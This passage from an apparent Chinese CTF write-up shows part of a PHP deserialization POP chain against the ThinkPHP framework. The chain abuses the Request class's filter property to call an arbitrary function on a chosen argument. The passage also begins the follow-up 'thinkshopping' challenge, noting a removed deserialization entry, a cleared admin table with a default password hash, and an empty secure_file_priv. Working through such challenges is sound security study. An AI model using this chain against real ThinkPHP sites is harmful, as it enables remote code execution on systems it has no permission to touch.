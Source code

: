 ```
            'expire'       => '',
            'session_name' => '',
        ];
        public function __construct($function,$parameter)
        {
            $this->handler = new Memcached($function,$parameter);
        }
    }
}
namespace think\cache\driver{
    use think\Request;
    class Memcached    {
        protected $handler;
        protected $options = [];
        protected $tag;
        public function __construct($function,$parameter)
        {
            // pop链中需要prefix存在，否则报错
            $this->options = ['prefix'   => 'jelly/'];
            $this->tag = true;
            $this->handler = new Request($function,$parameter);
        }
    }
}
namespace think{
    class Request
    {
        protected $get     = [];
        protected $filter;
        public function __construct($function,$parameter)
        {
            $this->filter = $function;
            $this->get = ["jelly"=>$parameter];
        }
    }
}
```  
  
由于数据包太长了，这里就不贴在文内了。  
### thinkshopping  
  
第二天又上了thinkshopping这一题，和前一题主要的区别是goods_edit.html中的反序列化入口被删了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3HW5e6FoZcNtJ8SdWtiazoEIgwVBPcZRD2GXYlQGIj2PXMicSpoM2ZXLA/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
还有admin表中的内容被清空了，没有1、admin、e10adc3949ba59abbe56e057f20f883e这条数据了  
  
更重要的是，secure_file_priv的值为空了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml36Xap3nKIglodKT7wqeibhUM2LoDTwPAAOoUdiaDqWQeXNqalRBt1ksAQ/640?wx_fmt=png&from=appmsg "null")  
  
